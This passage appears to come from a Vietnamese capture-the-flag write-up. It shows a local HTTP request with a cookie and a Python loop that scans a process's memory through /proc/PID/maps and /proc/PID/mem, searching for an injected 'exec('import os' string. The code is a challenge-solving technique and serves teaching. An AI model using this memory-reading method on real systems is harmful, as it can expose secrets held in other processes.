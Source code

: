 ```python
x = requests.get("http://127.0.0.1:8081/", cookies=cookie)
print(x.text)
```


File mem trên được chia thành nhiều thread và ta có thể đọc được thông qua file /proc/mem/maps

![image](./images/image7.png)

Ok thì mình chắc chắn msg nằm trong những thread này nên mình có thể brute force xem nó nằm ở thread nào 

```python
with open("/proc/$PID/maps", "r") as f:
    f=f.read().splitlines()
    for i in f:
        thr = i.split('-')[0]
        try:
            with open("/proc/$PID/mem", "rb") as g:
                g.seek(int(thr, 16))
                if (b"exec('import os" in g.read(1000001)):
                    print(thr)
        except:
            pass
```

![image](./images/image8.png)

